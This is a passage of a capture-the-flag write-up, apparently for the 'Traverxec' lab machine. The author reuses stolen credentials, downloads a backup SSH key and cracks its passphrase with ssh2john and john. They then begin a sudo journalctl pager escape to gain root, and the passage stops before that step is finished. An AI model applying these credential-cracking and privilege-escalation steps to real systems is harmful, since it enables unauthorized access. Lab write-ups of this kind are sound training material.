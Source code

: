 There was a directory named protected_file_area, inside which there was a backup os ssh key.
Requesting the protected-file-area directory through website needed creds, I used the creds I got earlier.

Downladed the backup-ssh-identity-files.tgz from the server.

Extracting the tgz file found Private key of david user inside it.

To get the passphrase of private key , I again used john
```bash
./ssh2john.py id_rsa > hash
#This created a hash of private key which would work with john
john --wordlist=rockyou.txt hash
```

Got the passphrase for the ssh private key which came to be **hunter**.

Got the user.txt

Now again looking for priv esc vectors.

sudo -l 

This asked for david's password , which i don't know.

There is a folder inside home directory of david named bin. Moving into it i found a server-stats.sh file which was executable me david user.
The sh file contained a command which was getting executed with sudo privileges.

So maybe I can run that command with sudo privileges. I thought maybe there is an entry for david user to run that command in sudoers file.
```bash
#server-stats.sh
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

So, I tried to run this command manually.
```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service 
```
It worked.

Looked GTFObins for any priv esc vector with journalctl.

I came to know that journalctl invokes **less** pager.

The way to gain root shell with this method is kinda weird.

Made the size of shell to be less than what the above command needed to show full output.
![placeholder](/writeup/assets/img/traverxec/size.png "size")
